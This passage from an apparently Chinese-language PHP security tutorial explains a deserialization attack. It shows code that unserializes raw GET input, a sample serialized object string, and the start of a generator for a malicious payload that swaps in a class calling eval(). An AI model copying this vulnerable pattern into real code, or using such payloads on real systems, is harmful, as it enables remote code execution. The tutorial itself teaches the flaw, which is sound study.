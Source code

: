 ```
	}
}

$param = $_GET["param"];
var_dump(unserialize($param));
```

这个案例当中`Test7`类存在`__wakeup()`方法，说明在下面`unserialize($param)`的时候，`Test7`是可控类。
我们对这个脚本进行反序列化操作（反序列化参数为`O:5:"Test7":1:{s:7:"project";O:5:"Test8":1:{s:3:"str";s:5:"Hello";}}`）时，得到如下结果：

![](/uploads/Test7.png)

`Test7`执行了`Test8`的`run()`方法, Test8的run方法是不存在安全问题的，但是Test9的run方法存在eval()动态执行代码，所以我们可以Test7所有属性可控的前提对此偷梁换柱。

首先生成恶意发序列化字符串：

```
<?php
class Test7
{
    public $project = 'hello';

    public function __construct()
    {
        $this->project = new Test9();  //将 Test8 修改为 Test9
    }

    public function __wakeup()
    {
    	$this->project->run();
    }
    
}

class Test8
{

	public $str = "Hello";

	public function run()
	{
		echo "I am Test9";
	}
}
```